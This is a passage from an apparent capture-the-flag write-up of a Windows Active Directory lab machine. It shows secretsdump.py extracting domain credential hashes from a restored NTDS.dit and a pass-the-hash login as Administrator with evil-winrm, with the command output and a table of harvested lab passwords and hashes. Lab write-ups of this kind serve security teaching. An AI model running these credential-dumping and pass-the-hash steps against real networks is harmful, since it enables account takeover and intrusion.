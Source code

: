 With the restored files at hand we can use `secretsdump.py` to list all the domain credentials.

```bash
$ /usr/share/doc/python3-impacket/examples/secretsdump.py -system system.hive -ntds ntds.dit LOCAL > credentials.txt

$ cat credentials.txt | grep -i -e 'admin'
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Administrator:aes256-cts-hmac-sha1-96:dbd84e6cf174af55675b4927ef9127a12aade143018c78fbbe568d394188f21f
Administrator:aes128-cts-hmac-sha1-96:8148b9b39b270c22aaa74476c63ef223
Administrator:des-cbc-md5:5d25a84ac8c229c1
```

Lets test the `administrator` hash. 

```bash
$ evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
...
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```

It works :-)

Now we can add the `administrator` account on our list of credentials.

| username | password | hash |
| --- | --- | --- |
| support | #00^BlackKnight | --- |
| audit2020 | P@ssw0rd! | --- |
| svc_backup | --- | 9658d1d1dcd9250115e2205d9f48400d |
| administrator | --- | 184fb5e5178480be64824d4cd53b99ee |

Before we get the root flag, we have one more obstacle.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

It looks like `root.txt` is encrypted.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will not be encrypted.

U root.txt
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
4375a629c7c6**********
```
